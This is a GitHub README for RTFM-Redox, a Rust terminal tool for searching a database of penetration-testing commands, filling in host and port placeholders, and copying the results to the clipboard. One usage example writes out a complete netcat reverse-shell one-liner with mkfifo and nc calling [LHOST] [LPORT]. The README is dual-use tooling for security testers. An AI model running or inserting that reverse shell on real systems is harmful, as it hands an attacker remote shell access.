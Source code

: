 
The goal of this project is to create an easier to use and updated replacement for [RTFM](https://github.com/leostat/rtfm) or something to run in the terminal that works like [Rev Shells](https://revshells.com/) or the [HackTools](https://addons.mozilla.org/en-US/firefox/addon/hacktools/) browser plugin. This started as a project to help improve my proficiency with Rust. I'm still new to it so I'm sure there are some poor Rust coding practices but I will be refactoring the code as I go.  I'm currently using the sqlite database that [RTFM](https://github.com/leostat/rtfm) uses but that needs some updating and new syntax needs to be added since that hasn't been touched in almost 6 years.  

## Working Features
- **note** Sometimes on Kali the backspace/delete key requires Ctrl+Backspace/Delete to delete previous typed characters in terminal.  And in some cases Ctrl+h stops working so I've added a 'hist' command for when that occurs until I figure out some of the intermittent key stroke issues.  
- Ctrl+r to dynamically search the RTFM database for commands as you type and display those in a selectable list.  Works similarly to using Ctrl+r to search through terminal history.
- Ctrl+h to display a history of previously selected commands from the current session in a selectable list. 
- up/down arrow keys to highlight a command from the current search or from the history. Pressing return copies that command to the clipboard.  
- 'info' displays full information on the currently selected command along with any variables that can be set and that are already set.  
- 'add -c [command]' to add a new command to the database.  optional: -d to add a comment/description with the command.
- 'update [column] [content]' to update a database column in the currently selected command.  At the moment the only columns to update are 'command', 'comment' and 'author'. Examples: 'update comment spawn a pty via python3', 'update author greg scharf', 'update command rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [LHOST] [LPORT] >/tmp/f'.  
- 'set' to set variables that will be replaced in commands that have placeholders such as [LHOST], [RHOST], etc. Example: 'set LHOST 10.200.13.3'

## To Add
- [x] Set variables in the CLI to automatically replace placeholders in commands for things like Remote Host, Local Host, Local Port, etc similar to msfconsole.  
- [ ] Add config file to store user set variables and other as yet to be determined configurations.
    - This might be the place for related commands that are often used together. Add ability to save the commands in the current history.  Would need a way to quickly delete a command in the current history e.g. highlight the command and then Ctrl+d to remove it. Also need to be able to completely clear the current history.  User would also need to supply a name for the history before it is saved to the config file.  These would be stored as an array of row IDs from TblCommand. Use the 'config' crate to facilitate this.  
- [x] Add 'env' command to display all user set variables.
- [ ] Switch from termion to crossterm for Windows support.
- [ ] Ctrl+d while in selectable list deletes the item from the database, or if in history mode, deletes the item from the current history.
- [ ] Make use of tags already implemented in the database to display selectable list of grouped items. For example, 'reverse shells linux' to display all commands in the database grouped under that tag.  tags already in the database are probably a little too general to be useful e.g. 'bash', 'windows'.  Also need a function to display all tags in the database as a selectable list.
- [x] Add ability to update the database columns of the currently selected command.
- [x] Display command's comment and any other info after it has been selected.
- [x] Add a history feature, ctrl+h or type 'history' to show a selectable list of previously copied commands.
- [x] Show currently selected command in prompt, type info to show all columns to allow for easier updating of the database within the CLI.
- [ ] Implement [RTFM](https://github.com/leostat/rtfm)'s solution for creating/updating the database
- [ ] Update the database with newer commands for things like Bloodhound,ffuf,feroxbuster,Rubeus,Crackmapexec,Chisel,SSHuttle, etc.
- [ ] Add a better method for generating help content with the prettytable crate.
- [ ] Allow selection mode to wrap up or down
- [ ] Fix errors that occur when attempting to create a statically linked linux release
- [ ] Get Windows version working... Need to use crossterm instead of termion
- [ ] Add search capability for text based/markdown notes.    
    - Root directory for user's notes will be supplied in a CLI variable.
- [ ] Use pre-existing 'refs' table to link to markdown notes and display notes in terminal when selected... there is probably a crate to display markdown.

## To Fix
- [ ] 5-26-23: Clean up code again before it becomes too unruly.
- [ ] Add buffer to scroll through result output that doesn't fit within terminal windows.
- [x] Handle error when output exceeds terminal window so application doesn't crash on Arch.
    - Needs a much better solution
- [ ] Kali backspace/delete key requires Ctrl+Backspace/Delete to delete typed character preceding cursor.    

## Build/Install

### Linux

To build and use until I add release builds... if the linker fails during build see Issues below.
```bash
git clone https://github.com/gregscharf/RTFM-Redox.git
cargo run

# Or if you want to build a release
cargo build -r
mkdir /opt/redox
cp target/release/redox /opt/redox/
cp snibs.db /opt/redox/
cd /opt/redox
./redox
```

**Issues**
When building on Debian distributions: If the linker fails during build, install the following packages.
```bash
sudo apt install libxcb1-dev libxcb-render0-dev libxcb-shape0-dev libxcb-xfixes0-dev
```

### Windows
**Note**: Building on Windows is not working because the termion crate does not support Windows.  Will be switching to crossterm.
